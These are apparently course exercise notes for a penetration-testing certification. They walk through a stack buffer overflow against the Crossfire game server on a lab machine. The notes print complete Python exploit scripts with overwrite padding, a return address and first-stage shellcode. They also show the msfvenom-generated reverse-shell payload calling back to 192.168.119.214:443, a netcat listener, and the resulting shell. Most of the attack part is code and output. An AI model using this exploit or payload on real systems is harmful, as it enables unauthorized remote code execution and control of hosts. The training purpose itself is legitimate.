


## 12.6.1.1.2. Include the first stage shellcode and return address instruction in your proof-of-concept and ensure that the first stage shellcode is working as expected by single stepping through it in the debugger.

Here is the script containing a return address in the eip variable:
```python
kali@kali:~/gitWorkspace/pwk/oscpExercises/12_linuxBufferOverflow$ cat 6_returnAddress.py 
#!/usr/bin/python
import socket

host = "192.168.214.44"

padding = "\x41" * 4368
eip = "\x96\x45\x13\x08"
first_stage = "\x83\xc0\x0c\xff\xe0\x90\x90"

buffer = "\x11(setup sound " + padding + eip + first_stage + "\x90\x00#"

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
print "[*]Sending evil buffer..."

s.connect((host, 13327))
print s.recv(1024)

s.send(buffer)
s.close()

print "[*]Payload Sent !"
```

However, when we run the debugger we must first add a breakpoint to our JMP ESP instruction address using the EDB Breakpoint Manager plugin. We do this to verify our EIP is overwritten correctly. Then press F9 to continue running the application.
Press Ctrl+B to open the Breakpoint Manager Plugin and 'Add Breakpoint' 0x08134596


Run the poc script
```plaintext
kali@kali:~/gitWorkspace/pwk/oscpExercises/12_linuxBufferOverflow$ python 6_returnAddress.py 
[*]Sending evil buffer...
#
[*]Payload Sent !
```

The application jumps to the return address we had found using OpCode search, and has written that same address to EIP (0x08134596).


Press F7 to get to the add 12 bytes instruction `add eax, 0xc`


Press F7 again to get to the jump instruction `jmp eax`


Right-click on the EAX register and 'Follow in Dump'. We notice that the EAX address points to right after the 'setup sound' string.


# 12.7.1.1.
## 12.7.1.1.1. Update your proof-of-concept to include a working payload.

First we choose a reverse shell payload and generate it via msfvenom
```plaintext
kali@kali:~/gitWorkspace/pwk/oscpExercises/12_linuxBufferOverflow$ msfvenom -p linux/x86/shell_reverse_tcp lhost=192.168.119.214 lport=443 -b "\x00\x20" -f py -v shellcode
[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x86 from the payload
Found 11 compatible encoders
Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 95 (iteration=0)
x86/shikata_ga_nai chosen with final size 95
Payload size: 95 bytes
Final size of py file: 550 bytes
shellcode =  b""
shellcode += b"\xb8\xc9\x44\xeb\xc5\xdb\xcd\xd9\x74\x24\xf4"
shellcode += b"\x5e\x2b\xc9\xb1\x12\x83\xee\xfc\x31\x46\x0e"
shellcode += b"\x03\x8f\x4a\x09\x30\x3e\x88\x3a\x58\x13\x6d"
shellcode += b"\x96\xf5\x91\xf8\xf9\xba\xf3\x37\x79\x29\xa2"
shellcode += b"\x77\x45\x83\xd4\x31\xc3\xe2\xbc\x01\x9b\x62"
shellcode += b"\xea\xea\xde\x8c\x13\x50\x57\x6d\xa3\xc0\x38"
shellcode += b"\x3f\x90\xbf\xba\x36\xf7\x0d\x3c\x1a\x9f\xe3"
shellcode += b"\x12\xe8\x37\x94\x43\x21\xa5\x0d\x15\xde\x7b"
shellcode += b"\x9d\xac\xc0\xcb\x2a\x62\x82"
```

Here is the script with a working payload:
```python
kali@kali:~/gitWorkspace/pwk/oscpExercises/12_linuxBufferOverflow$ cat 7_shellcode.py 
#!/usr/bin/python
import socket

host = "192.168.214.44"

nop_sled = "\x90" * 8   # NOP sled

# msfvenom -p linux/x86/shell_reverse_tcp lhost=192.168.119.214 lport=443 -b "\x00\x20" -f py -v shellcode

shellcode =  b""
shellcode += b"\xb8\xc9\x44\xeb\xc5\xdb\xcd\xd9\x74\x24\xf4"
shellcode += b"\x5e\x2b\xc9\xb1\x12\x83\xee\xfc\x31\x46\x0e"
shellcode += b"\x03\x8f\x4a\x09\x30\x3e\x88\x3a\x58\x13\x6d"
shellcode += b"\x96\xf5\x91\xf8\xf9\xba\xf3\x37\x79\x29\xa2"
shellcode += b"\x77\x45\x83\xd4\x31\xc3\xe2\xbc\x01\x9b\x62"
shellcode += b"\xea\xea\xde\x8c\x13\x50\x57\x6d\xa3\xc0\x38"
shellcode += b"\x3f\x90\xbf\xba\x36\xf7\x0d\x3c\x1a\x9f\xe3"
shellcode += b"\x12\xe8\x37\x94\x43\x21\xa5\x0d\x15\xde\x7b"
shellcode += b"\x9d\xac\xc0\xcb\x2a\x62\x82"

padding = "\x41" * (4368 - len(nop_sled) - len(shellcode))
eip = "\x96\x45\x13\x08"
first_stage = "\x83\xc0\x0c\xff\xe0\x90\x90"

buffer = "\x11(setup sound " + nop_sled + shellcode + padding + eip + first_stage + "\x90\x00#"

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
print "[*]Sending evil buffer..."

s.connect((host, 13327))
print s.recv(1024)

s.send(buffer)
s.close()

print "[*]Payload Sent !"
```

## 12.7.1.1.2. Obtain a shell from the Crossfire application with and without a debugger.

Start Crossfire, then start a netcat listener on Kali
```plaintext
kali@kali:~$ sudo nc -lnvp 443
[sudo] password for kali: 
listening on [any] 443 ...
```

Run the script
```plaintext
kali@kali:~/gitWorkspace/pwk/oscpExercises/12_linuxBufferOverflow$ python 7_shellcode.py 
[*]Sending evil buffer...
#
[*]Payload Sent !
```

Notice we have a shell, but it is stuck!


Let's look at the debugger output. There is an error.


Press F9 then press OK solves our netcat problem.



However, we likely won't have ability to debug on the target machine itself. So, run the application without the attaching it to a debugger.


Open a netcat listener on Kali
```plaintext
kali@kali:~$ sudo nc -lnvp 443
listening on [any] 443 ...
```

Run the poc script
```
kali@kali:~/gitWorkspace/pwk/oscpExercises/12_linuxBufferOverflow$ python 7_shellcode.py 
[*]Sending evil buffer...
#
[*]Payload Sent !
```

Notice we have a fully functioning shell!
